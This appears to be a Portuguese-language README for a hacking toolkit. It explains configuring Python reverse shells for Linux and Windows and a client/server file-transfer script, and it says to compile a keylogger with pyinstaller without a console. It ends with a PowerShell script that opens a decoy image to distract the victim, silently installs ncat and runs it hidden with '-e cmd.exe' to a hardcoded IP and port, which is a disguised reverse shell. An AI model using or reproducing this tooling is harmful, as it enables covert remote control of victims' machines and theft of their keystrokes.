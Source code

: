 #USE O ARQUIVO PYTHON PARA FZER O REVERSE SHELL, SE ESTIVER USANDO O LINUX USE O ARQUIVO "linshell.py"
SE ESTIVER USANDO O WINDOWS UTILIZE O ARQUIVO "winshell.py", CONFIGURE NO ARQUIVO O EXATO IP E PORTA ONDE
ESTARÁ ESCUTANDO NA SUA MAQUINA;

#VOCÊ PODE USAR A OPÇÃO 'help' NO TERMINAL PARA VER ALGUMAS FUNCIONALIDADES DO SCRIPT;

#NA PASTA 'Comunication' VOCÊ VERÁ DOIS ARQUIVOS ONDE O ARQUIVO DO SERVIDOR
É USADO PARA ESCUTAR E O CLIENT SE CONECTA A ELE, É UM SCRIPT EM FAZE DE TESTES DE APRIMORAMENTO
PARA FINS EDUCATIVOS;

#PARA RECEBER OU ENVIAR ARQUIVOS NA SUA MAQUINA OU NO SERVIDOR ONDE ESTÁ O 
ARQUIVO 'server.py' VOCÊ PODE USAR OS ARQUIVOS 'client.py' E O 'server.py'
CONFIGURE-OS PARA FAZER A CONEXÃO;

#QUANDO CONECTADOS O CLIENTE DEVERÁ DIZER O NOME DO ARQUIVO OU PASTA QUE SERÁ 
ENVIADA DO SERVIDOR COLOQUE O ARQUIVO OU PASTA DESEJADA NA MESMA PASTA ONDE
O ARQUIVO('server.py') ESTÁ SENDO EXECUTADO.

To make your keylogger run you need install the pyinstaller 
and run this comand in your console:


pyinstaller --onefile --noconsole main.py

try also hide a script behide a image with a .ps1:

# DEFINE O DIRETÓRIO DO DESKTOP
$desktopPath = [System.Environment]::GetFolderPath([System.Environment+SpecialFolder]::Desktop)

# DEFINE O URL E O CAMINHO DO ARQUIVO DE IMAGEM
$url2 = "https://www.minitool.com/images/uploads/news/2020/04/system-error-codes-fixes/system-error-codes-fixes-thumbnail.png"
$filename2 = "picture15322.jpg"
$finalPath2 = Join-Path -Path $desktopPath -ChildPath $filename2

# DOWNLOAD A IMAGEM
Invoke-WebRequest -Uri $url2 -OutFile $finalPath2

# ABRE A IMAGEM
Start-Process $finalPath2
# INSTALA O NCAT USANDO O WINGET
winget install Insecure.Nmap

# AGUARDA A INSTALAÇÃO COMPLETA (OPCIONAL)
Start-Sleep -Seconds 15



# DEFINE OS PARÂMETROS PARA O NCAT
$params = "192.168.1.14 5555 -e cmd.exe"

# EXECUTA O NCAT COM OS PARÂMETROS
Start-Process -FilePath "ncat" -ArgumentList $params -WindowStyle Hidden



creditos: Jhonnunes443
